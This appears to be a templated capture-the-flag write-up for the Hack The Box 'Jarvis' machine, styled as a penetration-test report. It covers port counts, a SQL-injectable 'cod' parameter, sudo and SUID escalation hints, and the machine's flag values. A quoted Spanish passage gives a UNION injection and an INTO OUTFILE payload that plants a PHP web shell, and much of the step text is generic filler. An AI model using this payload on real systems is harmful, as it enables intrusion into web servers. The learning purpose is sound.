# Offensive Security Assessment Report: Jarvis


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Jarvis** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Jarvis |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many open TCP ports are listening on Jarvis?

* **Observed Evidence / Output:** 3



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What is the GET parameter on the website on TCP 80 that is vulnerable to SQL injection?

* **Observed Evidence / Output:** cod



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


> **Assessment Query / Target Milestone:** How many columns are in the table being injected into?

* **Observed Evidence / Output:** 7



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Can the user that the website uses to connect to the DB, write files to the host file system?**

* **Observed Evidence / Output:** yes



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> 
> 
> 
> ## ✅ Paso a paso para probar `INTO OUTFILE`
> 
> ### 1. Asegúrate de que la inyección funciona
> 
> Tú ya hiciste:
> 
> ```bash
> bash
> CopiarEditar
> http://10.10.10.143/room.php?cod=4 UNION SELECT 1,2,3,4,5,6,7-- -
> 
> ```
> 
> Si eso devuelve contenido, puedes pasar al siguiente paso.
> 
> ---
> 
> ### 2. Prueba `INTO OUTFILE` para escribir un archivo
> 
> **Ejemplo:**
> 
> ```bash
> bash
> CopiarEditar
> http://10.10.10.143/room.php?cod=4 UNION SELECT 1,2,"<?php system($_GET['cmd']); ?>",4,5,6,7 INTO OUTFILE '/var/www/html/shell.php'-- -
> 
> ```
> 
> **¿Qué hace esto?**
> 
> - Intenta escribir un archivo `shell.php` con contenido PHP (`<?php system($_GET['cmd']); ?>`) en `/var/www/html/`.
> - Si tiene éxito, luego podrás acceder con:
> 
> ```
> bash
> CopiarEditar
> http://10.10.10.143/shell.php?cmd=id
> 
> ```
> 



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path of the directory that serves as the web root?

* **Observed Evidence / Output:** /var/www/html



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What programming language is this website written in?

* **Observed Evidence / Output:** php



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the website running as?

* **Observed Evidence / Output:** www-data



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the Python script that www-data can run as the pepper user without a password?

* **Observed Evidence / Output:** /var/www/Admin-Utilities/simpler.py



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What Python function in `simpler.py` is used to execute a command on the operating system?

* **Observed Evidence / Output:** os.system



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the pepper user's home directory.**

* **Observed Evidence / Output:** c90f7d53d3dfa887fc471f9522055383



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the SetUID binary owned by the root user and the pepper group on Jarvis?

* **Observed Evidence / Output:** /bin/systemctl



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** 6dfae8cbc7751394e0ef58e91fcc7e7b



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
